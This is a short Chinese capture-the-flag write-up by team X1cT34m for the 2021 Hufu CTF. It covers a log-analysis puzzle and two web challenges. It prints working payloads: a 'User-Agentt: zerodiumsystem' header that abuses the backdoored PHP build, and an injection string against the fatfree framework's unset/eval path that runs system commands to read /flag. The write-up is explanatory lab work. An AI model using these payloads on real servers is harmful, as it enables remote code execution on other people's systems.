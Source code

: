 ```yaml
---
title: 虎符CTF Writeup by X1cT34m
date: 2021-04-04
image: https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210404094446.png
description: 虎符CTF打了个No.8，这波是队友带飞
categories: 
- ctf_writeup
tags:
- 代码审计
- MD5哈希注入
- SSRF
---
```


## MISC

### 你会日志分析吗

时间注入，手撸日志得到ascii码，转换到`ZmxhZ3tZb3VfYXJlX3NvX2dyZWF0fQ==`，base64解密

## Web

### 签到

签到访问任意PHP文件，User-Agentt: zerodiumphpinfo();

User-Agentt: zerodiumsystem('cat /flag');


### unsetme

看到是fatfree框架，github下载最新`fatfree-3.7.3`源码，本地index.php改成题目给的

传参后看到debug的调用栈，本地动态调试一下

![image-20210403140105240](https://gitee.com/leonsec/images/raw/master/image-20210403140105240.png)

直接在unset下断点

![image-20210403140026001](https://gitee.com/leonsec/images/raw/master/image-20210403140026001.png)

跟进到`base.php`，看到530行左右有`eval`，因为是拼接执行所以猜测存在命令注入

![image-20210403135453125](https://gitee.com/leonsec/images/raw/master/image-20210403135453125.png)

虽然对引号等有转义，但是绕一下就ok，调试的时候发现主要是它对`[]`过滤的有点问题


```php
?a=n[]);system($_POST[0]);echo(1
POST:
0=cat /flag
```
